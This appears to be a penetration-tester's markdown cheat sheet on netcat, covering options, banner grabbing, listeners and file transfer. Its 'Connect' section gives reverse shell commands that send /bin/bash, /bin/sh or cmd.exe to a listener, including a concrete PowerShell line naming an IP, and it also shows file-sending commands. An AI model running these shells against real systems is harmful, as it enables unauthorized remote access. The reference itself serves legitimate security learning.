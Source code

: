 # netcat (nc)
> Netcat (the "TCP/IP Swiss Army Knife") is a networking utility used to read and write data to network connections using TCP or UDP.

## Contents
- [Intro](#intro)
  - [Remote Access Tool](#remote-access-tool)
  - [Two Modes](#two-modes)
  - [Options](#options)
- [Connecting to Ports (client mode)](#connecting-to-ports-client-mode)
  - [Standard Syntax](#standard-syntax)
  - [Additional Information](#additional-information)
  - [Manually Check Ports](#manually-check-ports)
- [Listener](#listener)
- [Connect](#connect)
  - [Connect to listener from Linux](#connect-to-the-listener-from-a-linux-target-machine)
  - [Connect to listener from Windows](#connect-to-the-listener-from-a-windows-target-machine)
- [File Input/Output](#file-inputoutput)
- [Transfer Files](#transfer-files)

## Intro

### Remote Access Tool
- NetCat is a popular remote access tool.
- It has a small footprint so it's portable. It can set up a reverse shell easily.
  - In Kali the Windows executable is found here: `/usr/share/windows-binaries/nc.exe`
- Netcat can be used by penetration testers to perform the following functionality:
  - Banner Grabbing
  - Port Scanning
  - Tranferring Files
  - Bind/Reverse Shells
- Resources: [Simple How-To](https://jeffreytse.net/computer/2020/10/14/how-to-use-netcat-command.html) | [Basic Usage](https://www.geeksforgeeks.org/netcat-basic-usage-and-overview/)

### Two Modes
- Netcat utilizes a client-server communication architecture with two modes:
  - **Client [Connect] Mode:** Netcat can be used in a client mode to connect to any TCP/UDP port; it can also be used to connect to a remote listener (a remote Netcat server).
  - **Server [LIsten] Mode:** Netcat can be used to listen for connections from clients on a specific port.

### Options
- Some options to be aware of...
- `-v  --verbose` : set verbosity levels (`-v` is lower level, `-vv` is more, `-vvv`, etc.)
- `-u  --udp` : use UDP instead of the default TCP
- `-l  --listen` : bind (to a specified port) and listen for incoming connections
- `-n  --nodns` : do not resolve hostnames via DNS
- `-p  --source-port <port#>` : specify the source port to use
- `-e  --exec <command>` : executes the given command 

## Connecting to Ports (client mode)

### Standard Syntax
```
nc [target ip] [target port]  
nc 10.4.20.244 80              # example
```
- Netcat allows you to connect to a specific TCP or UDP port.
- This can allows you to do banner grabbing and things of that nature (once you connect, the target may give you a service banner with helpful information).

### Additional Information
- If your initial connection (like the above) results in nothing (no service banner), then you need to add some options.
```
nc -nv 10.4.20.244 80      # this will give you a little bit more information (e.g., confirmation of the connection).
nc -nvu 10.4.20.244 139    # check UDP
```

### Manually Check Ports
- Nmap will find open ports, and a service version scan will most often provide detailed information about what services (and their versions) are running on those open ports.
- This is not, however, the case all the time. 
- Whenever you see a question mark next to an nmap result, that means nmap is give you a best guess.
- You should always check these items **_manually_** with Netcat.

## Listener
- Set up the listener on your attack machine:
```
nc -nvlp 1234     # TCP listener
nc -nvlup 1234    # UDP listener
```

## Connect

### Connect to the listener from a Linux target machine
```
nc [listener IP] [port] –e /bin/bash
nc [listener IP] [port] –e /bin/sh
```

### Connect to the listener from a Windows target machine
```
nc.exe [listener IP] [port] –e cmd.exe

# If you have access to Powershell:
powershell -c C:\tmp\nc.exe -e cmd.exe 10.10.15.104 1234
```

## File Input/Output

Send output from a listener to a text file:
```
nc -nvlp [port number] > filename.txt
```

Send output from a text file to a remote machine (this can be used to transfer any type of file: text, binary, etc.):
```
nc [IP Address] [port] < filename.txt
```

## Transfer Files

This will send the contents of the file "file.name" from the source file.name and save it in the target file.name. 
- So, it's not actually sending the file; it's sending the file contents.
- I've only tested this with text-based files. It works seamlessly.

Initialize the target listening to the port: 
```
nc -vl 44444 > file.name
```

Send the file to target:
```
nc -n [target_ip] 44444 < file.name
```

Source: [Alvin Smith](https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740)
